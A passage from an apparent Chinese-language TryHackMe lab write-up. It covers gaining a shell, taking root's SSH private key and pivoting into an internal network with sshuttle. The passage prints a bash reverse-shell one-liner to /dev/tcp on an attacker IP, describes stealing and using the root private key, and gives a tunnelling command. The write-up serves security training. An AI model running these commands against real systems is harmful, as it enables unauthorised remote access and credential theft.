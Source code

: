 目标执行：

	/bin/bash -i >& /dev/tcp/10.50.91.179/8888 0>&1

![在这里插入图片描述](https://img-blog.csdnimg.cn/2ccf2c0d01504167b5b30d1238baf7f3.png)

root目录下存在.ssh

![在这里插入图片描述](https://img-blog.csdnimg.cn/d903c6a9769146ef8ce2fddf307446b5.png)

我们可以选择在攻击机上使用ssh-keygen，将公钥丢到authorized_keys；或者将root的私钥下载过来，并祈祷它没有密码

由于这个是公共环境，显然利用root的私钥是更明智的做法

![在这里插入图片描述](https://img-blog.csdnimg.cn/ebddeefb76814320b67f594d0972597a.png)

很幸运，它并没有密码

---

## Pivoting - 旋转

这里tryhackme教了几个工具去做隧道、代理和端口转发，这里就不详细记录了

- Proxychains和FoxyProxy用于访问使用其他工具之一创建的代理
- SSH 可用于创建端口转发和代理
- plink.exe 是适用于 Windows 的 SSH 客户端，允许您在 Windows 上创建反向 SSH 连接。
- Socat 是重定向连接的不错选择，可用于以各种不同的方式创建端口转发
- Chisel可以做与SSH端口转发/隧道完全相同的事情，但不需要在盒子上访问SSH。
- 当我们在目标上具有SSH访问权限时，sshuttle 是创建代理的更好方法

我觉得sshuttle挺不错

---

## 内网枚举 - 横向移动 -> Windows Server

**假装tryhackme的openvpn并不存在**

### SSH隧道建立

由于我们已经获得了ssh访问权限，那么正好可以使用sshuttle搭建隧道

```bash
┌──(root🐦kali)-[/home/sugobet]
└─# sshuttle -r root@10.200.90.200 10.200.90.0/24 -x 10.200.90.200 --ssh-cmd "ssh -i ./id_rsa"
```

由于这个隧道通过thm的openvpn到达目的，所以我们可能无法在路由表、使用察觉任何差距

我们可以使用wireshark查看差异

![在这里插入图片描述](https://img-blog.csdnimg.cn/cd5419ddec2441fb859959167f9d6687.png)

wireshark:

![在这里插入图片描述](https://img-blog.csdnimg.cn/83b216afd63840a590eec6779b0933ab.png)
